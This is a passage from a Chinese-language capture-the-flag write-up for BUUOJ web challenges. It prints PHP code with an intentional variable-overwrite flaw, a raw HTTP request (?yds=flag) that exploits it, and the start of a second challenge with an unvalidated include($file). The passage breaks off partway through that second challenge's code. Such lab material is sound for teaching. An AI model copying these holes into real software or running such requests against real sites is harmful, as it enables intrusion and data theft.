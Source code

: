 先利用.git拿到php代码
```php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



echo "the flag is: ".$flag;
```

变量覆盖，BurpSuite的GET请求直接加参数`?yds=flag`即可
```sh
GET /?yds=flag HTTP/1.1
Host: 7828c578-72e0-4c87-883f-61a3e2fd8f27.node5.buuoj.cn:81
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

### [PHP文件读取](https://buuoj.cn/challenges#[BJDCTF2020]ZJCTF%EF%BC%8C%E4%B8%8D%E8%BF%87%E5%A6%82%E6%AD%A4)
```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
```